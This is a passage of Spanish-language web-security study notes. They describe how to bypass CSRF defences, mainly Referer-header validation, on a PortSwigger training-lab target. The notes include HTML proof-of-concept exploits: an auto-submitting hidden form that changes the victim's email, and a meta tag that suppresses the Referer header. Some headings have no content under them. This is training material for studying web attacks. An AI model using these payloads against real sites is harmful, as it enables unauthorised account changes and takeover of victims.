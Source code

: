 ```html
    function changeEmail() {
        document.forms[0].submit();
    }
</script>
  </body>
</html>
```

#### BYPASS SAMESITE STRICT ATTRIBUTE

##### CSRF - BYPASS VIA CLIENT-SIDE REDIRECTION



##### CSRF - BYPASS VIA SIBLINGS DOAMIN (DOMINIOS HERMANOS)

### BYPASS REFERER-BASED CSRF

#### REFERER HEADER

Además de las defensas que emplean tokens CSRF, algunas aplicaciones utilizan el `Referer`encabezado HTTP para intentar defenderse de los ataques CSRF, normalmente al verificar que la solicitud se originó en el propio dominio de la aplicación.

#### Validación de Referer depende de que el encabezado esté presente

Algunas aplicaciones validan el header `Referer` cuando está presente en las solicitudes, pero omiten la validación si se omite el encabezado.

En esta situación, un atacante puede crear su exploit CSRF de una manera que haga que el navegador del usuario de la víctima no envie (refleje) el  header `Referer` en la solicitud resultante. Hay varias formas de lograr esto, pero la más fácil es usar una etiqueta META dentro de la página HTML que alberga el ataque CSRF:

```html
<meta name="referrer" content="never">
```

entonces a la hora de crear noestra PoC, debemos agregar esta etiqueta:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <meta name="referrer" content="never">
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a1d00bd049db823c11812b7007900c9.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hack&#64;you&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
